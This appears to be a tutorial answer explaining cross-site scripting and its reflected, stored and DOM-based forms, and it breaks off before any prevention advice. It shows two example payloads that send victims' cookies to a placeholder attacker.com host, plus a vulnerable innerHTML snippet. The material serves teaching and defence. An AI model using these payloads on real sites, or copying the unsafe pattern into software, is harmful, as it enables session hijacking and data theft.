 # What is Cross-Site Scripting (XSS) and how can you prevent it?

**Answer:**

Cross-Site Scripting (XSS) is a security vulnerability that allows attackers to inject malicious client-side scripts into web pages viewed by other users. The injected code runs in the context of the victim's browser with the same privileges as legitimate scripts from the site, potentially allowing attackers to steal sensitive information, hijack user sessions, or perform actions on behalf of the victim.

## Types of XSS Attacks

### 1. Reflected XSS

In a reflected XSS attack, the malicious script is included in a request sent to the server and reflected back in the server's immediate response.

**Example:**
An attacker crafts a link like:
```
https://example.com/search?query=<script>document.location='https://attacker.com/steal.php?cookie='+document.cookie</script>
```

If the server returns the search query without sanitization (e.g., in a "You searched for: [query]" message), the script will execute when a victim clicks the link.

### 2. Stored XSS

In a stored XSS attack, the malicious script is permanently stored on the target server (e.g., in a database, comment field, forum post). The script is then retrieved and executed by victims when they view the affected page.

**Example:**
An attacker posts a comment on a blog containing:
```html
Great article! <script>fetch('https://attacker.com/steal-data', { method: 'POST', body: JSON.stringify({ cookies: document.cookie }) });</script>
```

If the comment system doesn't properly sanitize the input, every user viewing comments will execute the malicious script.

### 3. DOM-based XSS

In DOM-based XSS, the vulnerability exists in client-side code rather than server-side code. The attack payload doesn't need to reach the server but is executed when the JavaScript code processes data from an untrusted source (like URL parameters).

**Example:**
```javascript
// Dangerous code that takes a parameter from the URL
const name = new URLSearchParams(window.location.search).get('name');
document.getElementById('greeting').innerHTML = 'Hello, ' + name;
```
